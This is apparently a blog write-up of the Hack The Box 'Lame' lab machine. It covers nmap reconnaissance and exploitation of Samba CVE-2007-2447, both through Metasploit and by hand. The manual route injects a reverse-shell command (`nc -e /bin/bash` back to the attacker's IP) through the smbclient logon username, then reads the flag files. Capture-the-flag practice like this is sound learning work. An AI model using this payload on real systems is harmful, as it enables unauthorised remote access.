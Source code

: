 ```yaml
---
title: 'HTB Lame'
date: 2022-08-30 00:00:00
featured_image: '/images/htb/lame.png'
excerpt: Lame
---
```


![](/images/htb/lame.png)

`nmap -sC -sV 10.10.10.3`

> -sC - default set of scripts
> -sV - enables version detection

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-19 09:39 CEST
Nmap scan report for 10.10.10.3
Host is up (0.068s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-05-19T03:40:29-04:00
|_clock-skew: mean: 2h00m41s, deviation: 2h49m43s, median: 40s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.92 seconds
```

Nmap reveals vsftpd 2.3.4, OpenSSH and Samba. Vsftpd 2.3.4 does have a built-in backdoor, however it is not exploitable in this instance.

Searching shows vuln: _CVE-2007-2447_

### Metasploit
> use usermap_script
> set rhosts 10.10.10.3
> exploit

And... boom. We got shell.

In my case needed to change LHOST also - remember to check if it's the same as connected to HackTheBox.

### Without Metasploit

Start nc listener (other terminal):

```shell
nc -lvnp 4444
```

> -l - listen mode
> -v - verbose
> -n -  numeric-only IP, no DNS
> -p - port

Second terminal:

> smbclient //10.10.10.3/tmp 
> enter

```shell
logon "./=`nohup nc -e /bin/bash <your ip> 4444`"
```

> logon: - it is used to login into smb
> nohup: - run a command immune to hangups, with output to a non-tty

We got it.

There are two flags:
```shell
cat /root/root.txt
cat /home/makis/user.txt
```
